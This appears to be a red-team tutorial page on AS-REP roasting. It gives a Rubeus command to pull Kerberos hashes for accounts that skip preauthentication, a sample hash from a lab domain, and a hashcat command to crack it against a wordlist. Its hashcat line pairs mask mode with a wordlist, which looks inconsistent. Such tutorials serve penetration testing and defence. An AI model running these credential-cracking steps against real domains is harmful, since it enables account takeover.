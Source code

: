 # AS-REP Roasting

AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected:

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-08-33.png)

Those hashes can then be cracked offline, similarly to how it's done in [T1208: Kerberoasting](t1208-kerberoasting.md).

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@rubeus" %}
```text
.\Rubeus.exe asreproast
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-22-24.png)

### Cracking AS-REP Hashes with HashCat

Say this is the hash we get for the potential victim:

```text
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA
```

We need to insert `23` after the `$krb5asrep$` like so:

```text
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da
```

We can then crack it:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-37-56.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-38-14.png)

## References

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/" %}

{% embed url="https://jsecurity101.com/2019/IOC-differences-between-Kerberoasting-and-AsRep-Roasting/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" %}



